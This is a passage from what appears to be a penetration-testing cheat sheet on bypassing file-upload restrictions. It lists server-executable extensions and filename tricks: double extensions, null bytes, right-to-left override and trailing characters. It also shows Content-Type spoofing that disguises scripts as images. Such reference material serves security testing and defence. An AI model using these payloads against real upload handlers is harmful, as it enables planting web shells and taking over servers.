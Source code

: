* ASP Server

    ```powershell
    .asp
    .aspx
    .config
    .cer and .asa # (IIS <= 7.5)
    shell.aspx;1.jpg # (IIS < 7.0)
    shell.soap
    ```

* JSP : `.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .actions`
* Perl: `.pl, .pm, .cgi, .lib`
* Coldfusion: `.cfm, .cfml, .cfc, .dbm`
* Node.js: `.js, .json, .node`

### Upload Tricks

**Extensions**:

* Use double extensions : `.jpg.php, .png.php5`
* Use reverse double extension (useful to exploit Apache misconfigurations where anything with extension .php, but not necessarily ending in .php will execute code): `.php.jpg`
* Random uppercase and lowercase : `.pHp, .pHP5, .PhAr`
* Null byte (works well against `pathinfo()`)
    * `.php%00.gif`
    * `.php\x00.gif`
    * `.php%00.png`
    * `.php\x00.png`
    * `.php%00.jpg`
    * `.php\x00.jpg`
* Special characters
    * Multiple dots : `file.php......` , in Windows when a file is created with dots at the end those will be removed.
    * Whitespace and new line characters
        * `file.php%20`
        * `file.php%0d%0a.jpg`
        * `file.php%0a`
    * Right to Left Override (RTLO): `name.%E2%80%AEphp.jpg` will became `name.gpj.php`.
    * Slash: `file.php/`, `file.php.\`, `file.j\sp`, `file.j/sp`
    * Multiple special characters: `file.jsp/././././.`

**File Identification**:

MIME type, a MIME type (Multipurpose Internet Mail Extensions type) is a standardized identifier that tells browsers, servers, and applications what kind of file or data is being handled. It consists of a type and a subtype, separated by a slash. Change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif` to disguise the content as an image.

* Common images content-types:

    ```cs
    Content-Type: image/gif
    Content-Type: image/png
    Content-Type: image/jpeg
    ```
